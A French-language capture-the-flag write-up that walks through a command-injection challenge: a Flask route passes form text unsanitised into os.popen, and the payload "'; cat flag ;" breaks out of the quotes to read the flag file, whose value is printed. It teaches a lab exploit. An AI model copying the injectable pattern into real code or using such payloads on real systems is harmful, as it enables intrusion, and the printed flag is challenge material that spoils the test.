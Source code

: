 # Write-up

Tout d'abord, il faut obtenir le code source à l'aide du lien qui se trouve au bas de la page.

Dans le code source, on voit que la fonction suivante est celle qui est appelée lorsqu'on soumet le formulaire:

```python
@app.route("/", methods=["POST"])
def post_index():
    text = request.form.get("text")
    cmd = f"echo '{text}' | grep -oiP 'FLAG-[abcdef0-9]+'"

    print(cmd)
    stream = os.popen(cmd)
    
    return render_template("index.html", output = stream.read())
```

La commande qui sera exécutée se trouve à la ligne 4:

```python
cmd = f"echo '{text}' | grep -oiP 'FLAG-[abcdef0-9]+'"
```

On sait que le flag se trouve dans un fichier appelé `flag`. La commande qui permet de lire un fichier sur Ubuntu est `cat`. On souhaite donc effectuer la commande `cat flag`.

Toutefois, pour détourner cette commande, on doit d'abord s'assurer que les bouts de commandes existants ne nous gêneront pas. On doit donc sortir des guillemets simples (`'`) et terminer la commande qui précède notre texte avec `;`. Ensuite, on pourra exécuter la commande qu'on veut.

Voici donc notre attaque finale:

```
'; cat flag ;
```

Ce qui donnera la commande suivante:

```
echo ''; cat flag ;' | grep -oiP 'FLAG-[abcdef0-9]+'
```

> Le dernier morceau de commande (`' | grep -oiP 'FLAG-[abcdef0-9]+'`) n'est pas valide, mais ce n'est pas grave puisqu'on termine notre propre commande avec `;`. On peut donc être certain qu'elle sera exécutée.

Avec cette attaque, le programme sort le résultat suivant:

```
FLAG-eca40c791011bb2f7830ce6343df95c5
```
